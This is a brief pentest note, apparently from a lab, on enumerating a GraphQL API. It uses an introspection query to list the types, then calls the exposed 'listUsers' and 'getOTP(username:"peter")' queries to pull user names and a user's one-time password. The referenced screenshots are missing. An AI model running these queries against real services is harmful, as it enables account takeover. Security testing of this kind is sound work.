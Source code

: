 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[Pasted image 20221108114319.png]]

With this query you will find the name of all the types being used:

```sql
{__schema{types{name,fields{name}}}}
```

![[Pasted image 20221108114352.png]]

We are interested in "listusers" and "getOTP".

```sql
listUsers
```

![[Pasted image 20221108114422.png]]

```sql
getOTP(username:"peter")
```

![[Pasted image 20221108114441.png]]
